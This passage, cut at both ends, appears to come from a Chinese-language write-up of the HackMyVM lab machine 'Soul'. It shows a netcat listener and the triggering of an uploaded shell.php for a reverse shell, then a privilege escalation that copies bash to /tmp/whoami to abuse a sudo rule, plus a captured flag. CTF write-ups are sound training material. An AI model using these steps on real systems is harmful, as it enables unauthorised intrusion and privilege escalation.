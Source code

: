 
`lonelysoul.hmv` 通过 `server_name` 匹配到了一个专门的配置块，该配置块包含了处理 PHP 请求的规则。

```ini
location / {
    try_files $uri $uri/ =404;
}
```
> 在默认服务器块（`default_server`）的配置中，`location /` 块只是尝试将请求作为文件或目录来查找,并没有将 `.php` 文件请求转发给 PHP-FPM，所以默认服务器块无法解析 PHP 文件，只会返回 404 错误

配置etc/hosts 
```bash
vim /etc/hosts
192.168.80.10 lonelysoul.hmv
```

开启监听弹shell
```bash
nc -lvnp 1234
curl http://lonelysoul.hmv/shell.php

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
```
## 5. www-data提权gabriel
提权检测一下
```bash

sudo -l
Matching Defaults entries for www-data on soul:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on soul:
    (gabriel) NOPASSWD: /tmp/whoami
```

提示我们可以用 `gabriel` 用户的权限执行 `/tmp/whoami`
那我们将bash复制到`/tmp` 并改名`whoami` 即可获取到`gabriel`用户的bash
```bash
cp /bin/bash /tmp/whoami
sudo -u gabriel /tmp/whoami
whoami
gabriel
```
成功获取到 `gabriel` 用户

```bash
gabriel@soul:~$ cat user.txt
HMViwazhere
```
## 6. gabriel提取到Peter
检测一下
```bash
sudo -l
Matching Defaults entries for gabriel on soul:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gabriel may run the following commands on soul:
    (peter) NOPASSWD: /usr/sbin/hping3

```
我们可以用 `peter` 的权限执行 `/usr/sbin/hping3`